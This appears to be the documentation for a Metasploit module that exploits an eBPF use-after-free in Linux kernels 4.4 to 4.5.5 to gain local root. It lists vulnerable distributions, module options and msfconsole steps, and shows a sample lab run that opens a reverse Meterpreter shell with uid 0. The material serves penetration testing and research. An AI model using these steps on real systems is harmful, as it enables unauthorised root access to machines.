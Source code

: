 ## Notes

  Linux kernel 4.4 < 4.5.5 extended Berkeley Packet Filter (eBPF)
  does not properly reference count file descriptors, resulting
  in a use-after-free, which can be abused to escalate privileges.

  The target system must be compiled with `CONFIG_BPF_SYSCALL`
  and must not have `kernel.unprivileged_bpf_disabled` set to 1.


## Vulnerable Application

  This module has been tested successfully on:


  This module was not tested against, but may work against:

  * Fedora 24 < [kernel-4.5.4-300.fc24](https://bugzilla.redhat.com/show_bug.cgi?id=1334311)
  * Fedora 23 < [kernel-4.5.5-201.fc23](https://bugzilla.redhat.com/show_bug.cgi?id=1334311)
  * Fedora 22 < [kernel-4.4.10-200.fc22](https://bugzilla.redhat.com/show_bug.cgi?id=1334311)
  * Debian >= 4.4~rc4-1~exp1, < Fixed in version [4.5.3-1](https://bugs.debian.org/cgi-bin/bugreport.cgi?bug=82
  * Ubuntu 14.04.1 <= [4.4.0-22.39](https://bugs.launchpad.net/ubuntu/+source/linux/+bug/1578705/comments/3)


## Creating A Testing Environment

There are a few requirements for this module to work:

  1. `CONFIG_BPF_SYSCALL=y` must be set in the kernel (default on Ubuntu 16.04)
  2. `kernel.unprivileged_bpf_disabled` can't be set to `1` (default on Ubuntu 16.04)
  3. fuse needs to be installed (non-default on Ubuntu 16.04)
  
  Using Ubuntu 16.04, simply `sudo apt-get install fuse` and you're all set!

  The `libfuse-dev` package must be installed to test live-compiling on the target:

  `apt-get install libfuse-dev=2.9.4-1ubuntu3.1`


## Verification Steps

  1. Start msfconsole
  2. Exploit a box via whatever method
  3. Do: `use exploit/linux/local/bpf_priv_esc
  4. Do: `set session #`
  5. Do: `set verbose true`
  6. Do: `exploit`

## Options

  **MAXWAIT**

  The first stage of this priv esc can take ~35 seconds to execute.  This is the timer on how long we should wait till we give up on the first stage finishing.  Defaults to `120` (seconds)

  **WritableDir**

  A folder we can write files to.  Defaults to `/tmp`

  **COMPILE**
  
  If we should live compile on the system, or drop pre-created binaries.  Auto will determine if gcc/libs are installed to compile live on the system.  Defaults to `Auto`


## Scenarios

### Ubuntu 16.04 (with Linux 4.4.0-21-generic)

In this scenario, gcc and libfuse-dev are both installed so we can live compile on the system.

  ```
  msf5 > use exploit/linux/local/bpf_priv_esc 
  msf5 exploit(linux/local/bpf_priv_esc) > set session 1
  session => 1
  msf5 exploit(linux/local/bpf_priv_esc) > set verbose true
  verbose => true
  msf5 exploit(linux/local/bpf_priv_esc) > set lhost 172.16.191.188
  lhost => 172.16.191.188
  msf5 exploit(linux/local/bpf_priv_esc) > run
  
  [*] Started reverse TCP handler on 172.16.191.188:4444 
  [+] Kernel version 4.4.0-21-generic appears to be vulnerable
  [+] fuse package is installed
  [+] /tmp/fuse_mount doesn't exist
  [+] Kernel config has CONFIG_BPF_SYSCALL enabled
  [+] Unprivileged BPF loading is permitted
  [+] libfuse-dev is installed
  [+] gcc is installed
  [+] pkg-config is installed
  [*] Live compiling exploit on system...
  [*] Writing '/tmp/hello.c' (2682 bytes) ...
  [*] Writing '/tmp/doubleput.c' (5168 bytes) ...
  [*] Writing '/tmp/suidhelper.c' (333 bytes) ...
  [*] Uploading payload...
  [*] Writing '/tmp/.FVfiRBKRDX7r' (285 bytes) ...
  [*] Launching exploit. This may take up to 120 seconds.
  [+] Success! set-uid root /tmp/suidhelper
  [*] Transmitting intermediate stager...(126 bytes)
  [*] Sending stage (861348 bytes) to 172.16.191.141
  [*] Meterpreter session 2 opened (172.16.191.188:4444 -> 172.16.191.141:34804) at 2018-12-15 00:20:04 -0500
  [+] Deleted /tmp/hello.c
  [+] Deleted /tmp/hello
  [+] Deleted /tmp/doubleput.c
  [+] Deleted /tmp/doubleput
  [+] Deleted /tmp/suidhelper.c
  [+] Deleted /tmp/.FVfiRBKRDX7r
  [+] Deleted /tmp/fuse_mount
  
  meterpreter > getuid
  Server username: uid=0, gid=0, euid=0, egid=0
  meterpreter > sysinfo
  Computer     : 172.16.191.141
  OS           : Ubuntu 16.04 (Linux 4.4.0-21-generic)
  Architecture : x64
  BuildTuple   : x86_64-linux-musl
  Meterpreter  : x64/linux
  meterpreter > 
  ```

